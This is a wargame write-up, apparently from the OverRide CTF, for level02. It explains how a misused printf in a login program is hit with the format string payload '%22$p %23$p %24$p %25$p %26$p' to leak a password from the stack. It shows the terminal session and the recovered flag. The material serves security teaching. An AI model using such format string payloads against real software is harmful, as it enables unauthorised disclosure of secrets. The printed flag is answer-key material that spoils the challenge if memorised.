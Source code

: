 # Level 2

Here, with a little reverse engineering, we understand that in order to get to the systemcall to /bin/sh in the program, we need to input the password that we do not have since it is the one we are looking for. There is unfortunately no (or at least not any that we could find) easy exploit before that so we understand that this system call is a bait. Fortunately we have a very bad use of printf at the end, vulnerable to a format string attack. With gdb we can find that the password is stored in the stack at address $esp+22 to $esp+26 so 22nd to 26th element of the stack. We can just print these values with the format string like so :

`%22$p %23$p %24$p %25$p %26$p`

```bash
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p %23$p %24$p %25$p %26$p
--[ Password: 
*****************************************
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```

And there is the password, we do a little magic with this and [our super exploit](./Ressources/exploit.py) and we get the password :

```bash
python exploit.py 
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
